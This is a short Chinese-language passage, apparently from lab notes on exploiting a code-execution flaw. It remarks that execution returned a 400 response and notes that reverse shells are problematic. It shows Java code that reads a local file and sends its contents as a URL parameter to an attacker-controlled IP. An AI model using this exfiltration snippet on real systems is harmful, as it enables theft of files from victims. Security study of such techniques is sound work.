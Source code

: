 （代码执行成功返回的400报文）



读文件也可以

```text
String HOST = "http://192.168.136.149";
java.io.BufferedReader in = new java.io.BufferedReader(new java.io.FileReader("/tmp/testFile.txt"));
String str = in.readLine();
String str_url = HOST + "/?info=" + str;
java.net.URL url = new java.net.URL(str_url);
java.net.URLConnection conn = url.openConnection();
conn.connect();
conn.getContent();
```

但是反弹shell大问题

